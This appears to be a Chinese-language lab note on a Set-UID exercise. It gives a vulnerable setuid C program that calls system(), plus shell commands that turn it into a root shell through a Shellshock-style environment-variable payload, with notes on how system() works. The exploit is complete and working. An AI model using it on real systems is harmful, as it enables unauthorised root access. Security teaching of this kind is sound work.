

# 攻击Set-UID获取root权限

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l");
}
```
```bash
sudo ln -sf /bin/bash /bin/sh
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo hello; }; /bin/sh'
./vul
```
就得到root权限的shell：


!!! Note

    system()函数原理：system会调用fork()函数创建子进程，然后使用execl()函数执行/bin/sh程序，
    最终请求shell程序执行/bin/ls指令。


!!! warning

    如果用vagrant创建的虚拟机，注意/vagrant目录下是不能chown成root的，必须换一个目录  
    输入函数时注意大括号前后有空格 